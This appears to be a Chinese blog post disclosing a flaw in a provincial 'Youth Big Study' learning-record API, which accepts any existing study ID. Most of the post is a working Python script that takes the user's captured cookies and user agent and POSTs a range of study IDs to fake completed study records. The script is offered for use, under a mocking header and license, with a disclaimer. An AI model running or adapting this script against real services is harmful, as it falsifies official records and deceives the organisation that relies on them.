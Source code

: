 ```yaml
---
title: 汉东省“青年大学习”学习记录统计API漏洞
date: 2020-10-29
tags:  漏洞 bug 后端 入狱警告 法律的边缘
categories: article
---
```


### Summary

汉东省“青年大学习”学习记录API(http://api.xxx.cn/WANGLUOAPI/XUEXI/TIANJIAXUEXIJILU)存在不验证“仅限本期学习”问题，导致该API允许接收任何已存在的学习ID(XUEXIID)。API使用Cookies(You-Know-It-1)验证用户身份并接收POST请求统计学习记录。

直接POST对应的学习ID即可统计成功。值得注意的是，系统显示的学习记录时间为POST时间，明显未通过正常渠道获得。

### 漏洞利用代码示例

```python
# Fuck-Handong-QNDXX
# Author:You-Know-Who
# Fixed by Sunset
# Python 3
# Open Source with Do What The Fuck You Want To Public License
import requests
import time

print("请尽量确保手机和此设备处于同一网络环境下并使用Fiddler抓包获得的信息")
myua = input("请输入你的UserAgent：")
mycookies = input("请输入你的Cookies：You-Know-It-1=")


headers = {'user-agent': str(myua), 'cookie': 'You-Know-It-1='+str(mycookies), 'origin': 'http://front.xxx.cn', 'referer': 'http://front.xxx.cn/XUEXI',
           "Content-Type": "application/x-www-form-urlencoded", "X-Requested-With": "com.tencent.mm", "Accept-Language": "zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7"}

# API URL
url = 'http://api.xxx.cn/WANGLUOAPI/XUEXI/TIANJIAXUEXIJILU'

fromwhere = input("请输入开始ID：")
towhere = input("请输入截止ID：")

for id in range(int(fromwhere), int(towhere)+1):
    postreq = "Init"
    data = {'XUEXIID': str(id), 'LINGPAI': ''}
    print("----------")
    print(id)
    print("POST:"+str(data))
    postreq = requests.post(url, headers=headers, data=data)
    print(str(postreq))
    print(str(postreq.text))
    print("----------")
    time.sleep(1)

print("完成")
```

### 免责声明

此漏洞公开报告仅供技术交流，任何人的不恰当操作与作者无关。

